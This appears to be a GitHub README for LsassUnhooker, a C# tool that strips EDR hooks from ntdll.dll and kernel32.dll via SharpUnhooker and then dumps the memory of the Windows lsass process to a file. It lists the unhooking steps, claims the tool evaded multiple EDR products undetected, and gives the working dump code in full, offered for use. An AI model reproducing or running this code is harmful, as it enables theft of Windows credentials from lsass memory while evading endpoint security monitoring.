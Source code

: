 # LsassUnhooker
Little program written in C# to bypass EDR hooks and dump the content of the lsass process. The code makes use of [SharpUnhooker](https://github.com/GetRektBoy724/SharpUnhooker).

This project, created by GetRektBoy724, works the following way:

1.  It reads and copies the `.text section` of the original (in-disk) DLL using "PE parser stuff"
2.  It patches the `.text section` of the loaded DLL using `Marshal.Copy` and `NtProtectVirtualMemory` from D/Invoke (to changes the permission of the memory)
3.  It checks the patched in-memory DLL by reading it again and compare it with the original one to see if its correctly patched.

By just using SharpUnhooker and the MiniDumpWriteDump function, I was able to bypass multiple EDRs and managed to dump the content of lsass without being detected. This is the code that does the trick:

```csharp
SilentUnhooker("ntdll.dll");
SilentUnhooker("kernel32.dll");
String dumpFileName = Directory.GetCurrentDirectory() + "\\" + "lsass.dmp";
if (System.IO.File.Exists(dumpFileName))
{
	System.IO.File.Delete(dumpFileName);
}
IntPtr hFile = NativeMethods.CreateFile(dumpFileName, NativeMethods.EFileAccess.GenericWrite, NativeMethods.EFileShare.None, lpSecurityAttributes: IntPtr.Zero, dwCreationDisposition: NativeMethods.ECreationDisposition.CreateAlways, dwFlagsAndAttributes: NativeMethods.EFileAttributes.Normal, hTemplateFile: IntPtr.Zero);
NativeMethods._MINIDUMP_TYPE dumpType = NativeMethods._MINIDUMP_TYPE.MiniDumpWithFullMemory;
var proc = Process.GetProcessesByName("lsass").FirstOrDefault();
var exceptInfo = new NativeMethods.MINIDUMP_EXCEPTION_INFORMATION();
var result = NativeMethods.MiniDumpWriteDump(proc.Handle, proc.Id, hFile, dumpType, ref exceptInfo, UserStreamParam: IntPtr.Zero, CallbackParam: IntPtr.Zero);
if (result == true) {
	Console.WriteLine("lsass process was successfully dumped in " + Directory.GetCurrentDirectory() + "\\" + "lsass.dmp");
}
else {
	Console.WriteLine("Error dumping lsass process");
}
```

## Example
